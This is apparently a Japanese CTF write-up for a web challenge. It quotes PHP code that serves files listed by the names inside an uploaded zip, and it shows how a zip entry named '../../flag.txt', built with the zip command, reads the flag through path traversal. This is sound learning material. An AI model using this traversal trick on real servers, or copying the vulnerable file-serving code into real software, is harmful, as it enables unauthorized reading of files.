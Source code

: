 アップロードしたファイルはfile_get_contentsで読み込まれるので, readfile関数を仕込んだphpファイルで解くことは出来ない.
filenameに`../../flag.txt`を渡せば良さそうだが, その前にセッション変数`files`に`../../flag.txt`を格納しなくてはならない.

```
// return file if filename parameter is passed
if (isset($_GET["filename"]) && is_string(($_GET["filename"]))) {
    if (in_array($_GET["filename"], $_SESSION["files"], TRUE)) {
        $filepath = $user_dir . "/" . $_GET["filename"];
        header("Content-Type: text/plain");
        echo file_get_contents($filepath);
```

セッション変数`files`にはzipファイルに含まれるファイル名がそのまま渡されている.
`../../flag.txt`というファイルを作ることは出来ないのでzipファイルの作り方を工夫する必要がある.

```
// add files to $_SESSION["files"]
for ($i = 0; $i < $zip->numFiles; $i++) {
    $s = $zip->statIndex($i);
    if (!in_array($s["name"], $_SESSION["files"], TRUE)) {
        $_SESSION["files"][] = $s["name"];
    }
}
```

zipがディレクトリ構造を保存することを利用して相対パスで圧縮すれば良い.

```
root@ubuntu:~/seccon2020# zip ctf.zip ../../flag.txt
  adding: ../../flag.txt (stored 0%)
root@ubuntu:~/seccon2020# zipinfo ctf.zip
Archive:  ctf.zip
Zip file size: 178 bytes, number of entries: 1
-rw-r--r--  3.0 unx        0 bx stor 20-May-24 02:55 ../../flag.txt
1 file, 0 bytes uncompressed, 0 bytes compressed:  0.0%
```

`../../flag.txt`を参照すればフラグが入手できる.

![](/images/ctf4b2020/2020-05-24-03-19-58.png)
